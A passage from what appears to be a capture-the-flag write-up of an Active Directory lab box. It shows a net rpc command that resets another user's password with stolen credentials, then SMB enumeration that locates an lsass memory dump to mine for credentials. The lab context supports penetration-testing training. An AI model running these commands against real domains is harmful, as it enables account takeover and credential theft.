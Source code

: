 We can change the credentials for the **AUDIT2020** user using the following command, which **BloodHound** provides as a suggested method:

````bash
net rpc password "audit2020" "wharep@ssword2025" -U "BLACKFIELD.LOCAL/support%#00^BlackKnight" -S dc01.blackfield.local
````

After changing the password for **AUDIT2020**, we enumerated **SMB** again and found that we now have access to read the shared folder **'forensic'**. This could contain valuable information to further progress our exploitation.

````bash
smbmap -H 10.10.10.192 -u audit2020 -p 'wharep@ssword2025'
+] IP: 10.10.10.192:445        Name: BLACKFIELD.local          Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS        Remote Admin
        C$                                                      NO ACCESS        Default share
        forensic                                                READ ONLY        Forensic / Audit share.
        IPC$                                                    READ ONLY        Remote IPC
        NETLOGON                                                READ ONLY        Logon server share 
        profiles$                                               READ ONLY        
        SYSVOL                                                  READ ONLY        Logon ser
        
````

In the **SMB** share, the most interesting file we found is **lsass.zip**.

**lsass.exe** (Local Security Authority Subsystem Service) is a critical Windows process responsible for managing user authentication, such as login and credential verification. It stores sensitive data, including user hashes, and is often targeted during post-exploitation.

We'll extract **lsass.zip** and analyze its contents to see if we can find any valid credentials or other sensitive information.

````bash
❯ smbclient //10.10.10.192/forensic -U audit2020
Password for [WORKGROUP\audit2020]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Feb 23 14:03:16 2020
  ..                                  D        0  Sun Feb 23 14:03:16 2020
  commands_output                     D        0  Sun Feb 23 19:14:37 2020
  memory_analysis                     D        0  Thu May 28 22:28:33 2020
  tools                               D        0  Sun Feb 23 14:39:08 2020

                5102079 blocks of size 4096. 1693727 blocks available
smb: \> cd memory_analysis
smb: \memory_analysis\> ls
  .                                   D        0  Thu May 28 22:28:33 2020
  ..                                  D        0  Thu May 28 22:28:33 2020
  conhost.zip                         A 37876530  Thu May 28 22:25:36 2020
  ctfmon.zip                          A 24962333  Thu May 28 22:25:45 2020
  dfsrs.zip                           A 23993305  Thu May 28 22:25:54 2020
  dllhost.zip                         A 18366396  Thu May 28 22:26:04 2020
  ismserv.zip                         A  8810157  Thu May 28 22:26:13 2020
  lsass.zip                           A 41936098  Thu May 28 22:25:08 2020
  mmc.zip                             A 64288607  Thu May 28 22:25:25 2020
  RuntimeBroker.zip                   A 13332174  Thu May 28 22:26:24 2020
  ServerManager.zip                   A 131983313  Thu May 28 22:26:49 2020
  sihost.zip                          A 33141744  Thu May 28 22:27:00 2020
  smartscreen.zip                     A 33756344  Thu May 28 22:27:11 2020
  svchost.zip                         A 14408833  Thu May 28 22:27:19 2020
  taskhostw.zip                       A 34631412  Thu May 28 22:27:30 2020
  winlogon.zip                        A 14255089  Thu May 28 22:27:38 2020
````